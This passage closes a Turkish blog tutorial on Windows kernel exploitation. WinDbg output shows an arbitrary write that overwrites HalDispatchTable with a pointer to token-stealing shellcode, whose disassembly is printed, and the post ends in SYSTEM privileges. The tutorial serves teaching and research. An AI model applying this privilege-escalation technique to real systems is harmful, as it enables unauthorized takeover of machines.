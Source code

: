 Dikkat ederseniz burada iki adres de kodda istediğimiz biçimde 4 artımış durumda. Bu defa nereye sorusunun cevabı `0xfffff80002847cbc`, ne sorusunun cevabı ise `0`. Kodumuzu devam ettirdiğimizde `HalDispatchTable`'ı kontrol edersek "shellcode"'umuzun geldiğini görebiliriz:

```
kd> dq nt!HalDispatchTable
fffff800`02847cb0  00000000`00000004 00000000`002cf948 <---- Buradayız
fffff800`02847cc0  fffff800`02646470 fffff800`02a465e0
fffff800`02847cd0  00000000`00000000 fffff800`02712170
kd> u poi(nt!HalDispatchTable+0x8) l8
00000000`002cf948 50              push    rax
00000000`002cf949 65488b142588010000 mov   rdx,qword ptr gs:[188h]
00000000`002cf952 4c8b5a70        mov     r11,qword ptr [rdx+70h]
00000000`002cf956 4d8b9388010000  mov     r10,qword ptr [r11+188h]
00000000`002cf95d 498b0a          mov     rcx,qword ptr [r10]
00000000`002cf960 488b51f8        mov     rdx,qword ptr [rcx-8]
00000000`002cf964 4883fa04        cmp     rdx,4
00000000`002cf968 7405            je      00000000`002cf96f
```

Her şey tamam gözüküyor! Hata ayıklayıcıyı devam ettirip, yetki yükseltme olup olmadığını kontrol edelim:

![](/files/arbit_sonuc.jpg)

Görüldüğü üzere bir kez daha sistem yetkilerine ulaşmış olduk...

Peki bunları niye anlatıyoruz? Ne işe yarayacak? Aslında tamamen sizin seçiminize kalmış. Bu blogda yazılan her şey hem iyi niyetle hem de kötü niyetle kullanılabilir. Benim bunları yazma amacım başta kendim için önden bir şeyler gönderebilmek, sonrasında ise kendi dilimizde aradığımızda ulaşılabilecek bilgi kaynağı kazandırmak. Umuyorum ki buradan edindiğiniz bilgileri iyiye dair olan fikirlerinizle birlikte kullanırsınız.

Selametle.

[^1]: Sistemdeki önemli veri yapılarını korumakla görevli bir mekanizma.
